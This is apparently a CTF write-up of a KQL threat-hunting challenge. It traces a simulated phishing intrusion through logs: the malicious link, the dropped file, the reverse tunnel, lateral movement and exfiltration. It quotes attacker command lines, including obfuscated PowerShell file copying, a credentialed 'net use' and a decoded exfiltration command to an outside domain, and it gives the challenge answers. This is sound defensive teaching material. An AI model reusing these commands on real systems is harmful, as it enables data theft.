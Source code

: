 # Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**  
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr`

**alabaster_snowball@santaworkshopgeeseislands.org**

What is the email address that was used to send this spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender`

**cwombley@gmail.com**

  What was the subject line used in the spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject`

**[EXTERNAL] Invoice foir reindeer food past due**

 ### Case 2:

What is the role of our victim in the organization?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role`

**Head Elf**

 What is the hostname of the victim's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname`

**Y1US-DESKTOP**

 What is the source IP linked to the victim?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr`

**10.10.0.4**

  ### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z** → `net share` command

  What was the hostname of the system the attacker moved laterally to?

**NorthPolefileshare**  → `"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)` command

### Case 5:

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

**2023-12-24T16:07:47Z**

 What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

The command executed at the above timestamp is:

`( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''`

The filename has to be reversed using `echo txt.tsiLeciNythguaN | rev`

**NaughtyNiceList.txt**

 The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

The activity was performed at 2023-12-24T16:58:43Z.
Base64 decoding leads to:  
`[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN`

This is the decimal representation of the ASCII string `downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file`

**giftbox.com**
  
### Case 6:

What is the name of the executable the attackers used in the final malicious command?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

The activity can be found at 2023-12-25T10:44:27Z.

**downwithsanta.exe**

What was the command line flag used alongside this executable?

**--wipeall**

### Well done!

We are provided with the below command to be executed in the KQL prompt:

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

Answer: **Beware the Cube that Wombles**

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUwMDE1NDE1NCwtNDUxNTcyOTY2LC0yMD
EwMTkyNjNdfQ==
-->